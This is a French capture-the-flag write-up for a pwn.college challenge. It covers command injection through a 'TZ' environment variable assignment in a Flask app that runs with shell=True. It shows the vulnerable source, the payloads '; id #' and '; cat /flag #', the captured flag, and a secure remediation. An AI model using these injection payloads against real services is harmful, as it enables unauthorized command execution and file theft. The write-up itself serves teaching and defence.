


> ****Informations Générales****
> - **Plateforme :** pwn.college
> - **Catégorie :** Command Injection (Contexte de variable d'environnement)
> - **Objectif :** Injecter des commandes dans un contexte où l'entrée utilisateur est placée au début d'une commande, en tant que valeur d'une variable d'environnement (`TZ`).

---

##  1. Description du Challenge

Ce niveau montre que l'injection de commandes ne se limite pas aux arguments de fin de ligne. L'application web propose un service de fuseau horaire (*timezone service*) qui utilise l'entrée de l'utilisateur pour définir dynamiquement la variable d'environnement `TZ` juste avant d'exécuter la commande `date`.

---

##  2. Analyse du Code Source

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import subprocess
import flask
import os

app = flask.Flask(__name__)

@app.route("/milestone", methods=["GET"])
def challenge():
    arg = flask.request.args.get("time-zone", "MST")
    # ⚠️ Injection au sein d'une assignation de variable d'environnement
    command = f"TZ={arg} date"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,
        shell=True,            # Interpréteur shell actif
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        encoding="latin",
    ).stdout

    return f"""
        <html><body>
        Welcome to the timezone service! Please choose a timezone to get the time there.
        <form action="/milestone"><input type=text name=time-zone><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """

os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
````

###  Logique de l'Exploitation

1. **Le comportement normal :** Sous Linux, préfixer une commande par une assignation de variable (ex: `TZ=MST date`) définit cette variable uniquement pour le processus de la commande exécutée.
          
    
2. **Le piège de la concaténation :** Le code forme la chaîne `TZ={arg} date`.
          
    
3. **Le rôle du point-virgule (`;`) :** Si on injecte `; id #`, le shell interprète la ligne ainsi :
    
    `TZ=; id # date`
    
      
    - Le shell assigne une variable vide `TZ=`.
        
          
        
    - Il rencontre le `;` qui agit comme un **séparateur de commandes**.
        
          
        
    - Il exécute immédiatement notre commande injectée (`id`).
        
          
        
    - Le `#` transforme le reste de la ligne ( `date`) en commentaire pour éviter toute erreur de syntaxe.
                  
        

## 🚀 3. Exploitation

### Étape 1 : Vérification de l'injection

On envoie le payload suivant dans le champ `time-zone` :

```text
; id #
```

La commande exécutée devient :

```bash
TZ=; id # date
```

> ****Résultat :** Le serveur exécute `id` avec les privilèges root (`uid=0(root)`).**
> 
>   


### Étape 2 : Lecture du flag

On applique le même principe pour lire le fichier `/flag` :

  
```text

; cat /flag #
```

> ****Flag obtenu :****
> 
> `pwn.college{oRiP1a70PHi-5VdgCyVaawzTYc0.QX4gzMzwSM5EjN3EzW}`
> 
>   



## 🛠️ 4. Remédiation

Pour corriger ce type de vulnérabilité, il ne faut jamais se fier à l'encapsulation de variables ou utiliser `shell=True`. Si l'on souhaite modifier l'environnement d'un sous-processus de manière sécurisée en Python, il faut utiliser le paramètre `env` de `subprocess.run` avec une liste d'arguments fixe :

```python
# Code Sécurisé
import os

env = os.environ.copy()
env["TZ"] = arg  # Attention tout de même à valider que le timezone est un format valide (ex: liste blanche)

result = subprocess.run(
    ["date"],
    env=env,
    shell=False,
    stdout=subprocess.PIPE,
    stderr=subprocess.STDOUT,
    encoding="latin"
).stdout
```
